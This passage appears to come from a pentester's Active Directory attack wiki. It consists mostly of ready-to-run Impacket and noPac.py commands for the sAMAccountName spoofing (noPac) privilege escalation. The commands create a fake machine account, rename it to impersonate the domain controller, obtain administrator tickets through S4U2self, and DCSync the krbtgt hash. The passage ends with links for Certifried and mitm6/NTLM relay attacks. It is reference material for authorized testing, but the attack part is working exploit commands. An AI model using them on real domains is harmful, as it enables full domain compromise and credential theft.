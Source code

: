```bash
# create a new machine account
$ addcomputer.py -computer-name FakeMachine -computer-pass 'Passw0rd1!' -dc-host DC01.megacorp.local -dc-ip 192.168.1.11 megacorp.local/snovvcrash:'Passw0rd2!'
# clear SPNs
$ addspn.py -u 'megacorp.local\snovvcrash' -p 'Passw0rd2!' -t 'FakeMachine$' -c DC01
# change fake machine's sAMAccountName
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name 'FakeMachine$' -new-name DC01
# request TGT
$ getTGT.py megacorp.local/DC01:'Passw0rd1!' -dc-ip 192.168.1.11
# change fake machine's sAMAccountName once again
$ renameMachine.py megacorp.local/snovvcrash:'Passw0rd2!' -dc-ip 192.168.1.11 -current-name DC01 -new-name 'FakeMachine$'
# request S4U2self
$ KRB5CCNAME=DC01.ccache getST.py -spn LDAP/DC01.megacorp.local megacorp.local/DC01 -k -no-pass -dc-ip 192.168.1.11 -impersonate administrator -self
# fire DCSync
$ KRB5CCNAME=administrator.ccache secretsdump.py -k -no-pass DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt'
```

Using noPac:

- [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)

```bash
# creating a computer account
$ python3 noPac.py megacorp.local/snovvcrash:'Passw0rd123!' -dc-host DC01 -dc-ip 192.168.1.11 -target-name 'FakeMachine1$' -use-ldap -dump -just-dc-ntlm
# providing an existing (owned) computer account creds
$ python3 noPac.py megacorp.local/snovvcrash:'Passw0rd123!' -dc-host DC01 -dc-ip 192.168.1.11 --impersonate administrator -no-add -target-name 'FakeMachine2$' -old-hash :fc525c9683e8fe067095ba2ddc971889
```
{% endtab %}
{% endtabs %}



### dNSHostName Spoofing (Certifried)

**CVE-2022-26923**

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing-certifried.md#abuse-rbcd" %}
[dnshostname-spoofing-certifried.md](dnshostname-spoofing-certifried.md)
{% endcontent-ref %}




## mitm6 + WPAD + LDAPS NTLM Relay + RBCD

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
